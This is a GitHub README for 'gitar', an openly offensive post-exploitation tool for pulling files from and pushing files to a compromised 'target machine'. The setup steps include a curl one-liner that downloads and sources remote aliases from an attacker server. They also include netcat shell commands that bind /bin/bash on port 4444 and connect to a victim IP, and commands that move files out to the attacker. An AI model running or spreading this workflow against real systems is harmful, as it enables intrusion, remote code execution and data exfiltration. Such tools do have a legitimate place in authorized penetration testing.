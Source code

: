 <h1 align=center> 🎸 gitar ⇆</h1>

----
<div align="center">
<code>
<b>~></b> Have the  <b><i>simplest possible shortcuts </i></b> to upload/download file to/from the <q>target machine</q>

<b>~></b><b><i> No installation needed</i></b> on <q>target machine</q>
</code>

<b>~></b><b><i> Fast and simple </i></b> deployment
</code>


<img src="https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif">
</div>



## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a di1rectory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

----

## Set up

### Pre-requisites

* HTTP Network connectivy between attacker & target machine
* On target machine: `curl` 
	* `tar` for upload directory 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Steps

 1. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]`
 2. <sup>(Target machine)</sup> Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output): `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

### Steps with a `nc` reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*
1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `CTRL+V` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not beneifit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Command line to run server on a docker (or harden `gitar` with seccomp + apparmor + drop capabilities) 
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Download directory support 
- Handle case when curl isn't on target machine (wget version?)
- Completion on target shell to help `pull` (path completion)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )
